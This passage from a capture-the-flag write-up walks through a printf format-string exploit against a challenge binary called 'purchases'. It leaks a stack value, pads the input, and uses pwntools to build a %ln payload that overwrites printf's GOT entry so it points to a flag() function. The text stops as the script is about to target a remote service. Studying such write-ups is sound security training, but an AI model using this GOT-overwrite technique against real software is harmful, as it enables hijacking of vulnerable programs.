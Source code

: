 So we add 7 more spaces (16 - 5 + 4) , add 1 to the argument
```python
p.sendline('%10$p           '+p64(printf_address)[:3])
```
Yay! Finally get the correct address:
```
You don't have any money to buy 0x404040           @@@s. You're wasting your time! We don't even sell 0x404040           @@@s. Leave this place and buy 0x404040           @@@ somewhere else. Get out!
```
Using `rjust(16)` or `ljust(16)` to add space to the input instead of typing them:
```python
p.sendline('%10$p'.rjust(16)+p64(printf_address)[:3])
```
Its time for the real thing!

According to the man page of printf:
```
Conversion specifiers:
...
...
...
n	The  number  of  characters written so far is stored into the integer pointed to by the corresponding argument.

BUGS:
	Code such as printf(foo); often indicates a bug, since foo may contain a % character.  If  foo  comes  from  untrusted  user
	input, it may contain %n, causing the printf() call to write to memory and creating a security hole.

```
if we execute `printf("hello world %n",some_address)`, it will print `hello world ` and store 12 (number of printed characters) into `some_address`

Means we need to type number of characters in flag function address which is alot and impossible

Because the buffer is only 60 characters:
```c
char item[60];
```
Using Format String we also can print alot of characters with spaces:
```c
print("%999i",1234);
//output:
//[999 of spaces]1234
```
Ok lets construct the payload:
```python
flag = elf.symbols['flag']			# Get the function flag() address
flag = str(flag)					# Convert to string
payload = '%' + flag + 'x%10$ln'	# Using ln because of 8 bytes address
p.sendline(payload.rjust(16)+p64(printf_address)[:3])
```
Created a fake flag in current directory

And we execute the script, and it worked!!:
```
...
...
...
cfe79340@@@SKR{flag}
[*] Got EOF while reading in interactive
```
Changing the process to netcat and execute the script:
```python
from pwn import *
elf = ELF('./purchases')
printf_address = elf.symbols['got.printf']
flag = elf.symbols['flag']			# Get the function flag() address
```